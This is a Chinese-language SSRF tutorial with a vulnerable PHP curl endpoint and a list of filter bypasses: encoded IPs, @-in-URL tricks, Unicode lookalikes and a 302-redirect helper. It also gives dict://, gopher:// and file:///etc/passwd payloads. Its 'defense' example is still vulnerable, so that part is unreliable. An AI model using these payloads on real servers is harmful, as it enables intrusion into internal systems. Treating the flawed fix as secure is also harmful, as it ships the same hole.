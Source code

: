 ## SSRF 漏洞学习 ##
+ 漏洞介绍
+ 漏洞原理
+ 利用方式
+ 防御方式
+ 绕过一些不完整的防御

### 介绍 ###
SSRF(Server-Side-Request Forgery,服务器端请求伪造)是一种由攻击者构造请求，由服务器端发起请求的安全漏洞。一般情况下，SSRF攻击的目标是外网无法访问的内部系统 （正因为请求是由服务端发起的，所以服务端能请求到与自身相连与外网隔绝的内部系统）

### 原理 ##
SSRF的形成大多是由于服务端提供了从其他服务器应用获取数据的功能并且没有对目标地址做过滤与限制。例如，黑客操作服务端从指定URL地址获取网页文本内容，加载指定地址图片等，利用的服务端请求伪造。SSRF利用存在缺陷的web应用作为代理攻击远程和本地的服务器

主要攻击方式如下：
+ 对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息
+ 攻击运行在内网或本地的应用程序
+ 对内网web应用进行指纹识别，识别企业内部的资产信息
+ 攻击内外网的web应用，主要是使用HTTP GET请求就可以实现的攻击(比如：struts2、SQli等)
+ 利用file协议读取本地文件

### 利用 ###
漏洞代码：
```php
<?php
function curl($url){
	$ch=curl_init(); /*初始化curl插件*/
	curl_setopt($ch,CURLOPT_URL,$url);
	curl_setopt($ch,CURLOPT_HEADER,0);
	curl_exec($ch);
	curl_close($ch);
}

if (isset($_GET['url'])){
	$u=$_GET['url'];
	curl($u);
}
?>
```

修改url为别的地址：
![](https://s2.ax1x.com/2019/05/25/VFxWvD.png)

修改url为内网地址：
![](https://s2.ax1x.com/2019/05/25/VFzF2T.png)

修改url为本地文件地址：
![](https://s2.ax1x.com/2019/05/25/VFzQG6.png)

获取端口banner：
![](https://s2.ax1x.com/2019/05/25/VFztZd.png)

### 防御 ###
正确的实现远程加载图片等功能，而不是使用curl_exec：
```php
<?php
if (isset($_GET['url'])) { 
    $content = file_get_contents($_GET['url']); 
    $filename ='I:\\phpstudy\\WWW\\img\\'.rand().'.jpg';  /*rand()随机数*/
	$qg=explode('\\',$filename);
    file_put_contents($filename, $content); 
    echo $_GET['url']; 
    $img = "<img src='img/$qg[4]'>"; 
}
echo $img;
?>
```
![](https://s2.ax1x.com/2019/05/25/VkPqGn.md.png)

### Bypass ###
现实中常见的防御：
+ 服务器开启 OpenSSL 无法进行交互利用
+ 服务端需要鉴权（Cookies & User：Pass）不能完美利用
+ 限制请求的端口为 http 常用的端口，比如，80,443,8080,8090。
禁用不需要的协议。仅仅允许 http 和 https 请求。可以防止类似于 file:///,gopher://,ftp:// 等引起的问题。
+ 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。


绕过方式：
```
更改 IP 地址写法 例如192.168.0.1

8 进制格式：0300.0250.0.1
16 进制格式：0xC0.0xA8.0.1
10 进制整数格式：3232235521
16 进制整数格式：0xC0A80001
还有一种特殊的省略模式，例如10.0.0.1这个 IP 可以写成10.1
利用 URL 解析问题 在某些情况下，后端程序可能会对访问的 URL 进行解析，对解析出来的 host 地址进行过滤。这时候可能会出现对 URL 参数解析不当，导致可以绕过过滤。 例如：

http://www.baidu.com@192.168.0.1/与http://192.168.0.1请求的都是192.168.0.1的内容
可以指向任意 ip 的域名xip.io：http://127.0.0.1.xip.io/==>http://127.0.0.1/
短地址http://dwz.cn/11SMa==>http://127.0.0.1
利用句号。：127。0。0。1==>127.0.0.1
利用 Enclosed alphanumerics

ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```
绕过http协议的限制：
构造一个前端页面

```html
<html>
<body>
  <form name="px" method="post" action="http://127.0.0.1/ss.php">
    <input type="text" name="url" value="">
    <input type="submit" name="commit" value="submit">
  </form>
  <script></script>
</body>
</html>
```
请求非 HTTP 的端口可以返回 banner 信息。

或可利用 302 跳转绕过 HTTP 协议的限制。


辅助脚本

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```

协议利用 
Dict 协议
```
dict://fuzz.wuyun.org:8080/helo:dict
```
Gopher 协议

```
gopher://fuzz.wuyun.org:8080/gopher
```
File 协议

```
file:///etc/passwd
```

## 参考文章 ##
利用 Gopher 协议拓展攻击面 ：[利用 Gopher 协议拓展攻击面](https://blog.chaitin.cn/gopher-attack-surfaces/)
Ctf-Wiki SSRF：[CTF-Wiki](https://ctf-wiki.github.io/ctf-wiki/web/ssrf/)
腾讯某处SSRF漏洞：[腾讯某处SSRF漏洞](https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)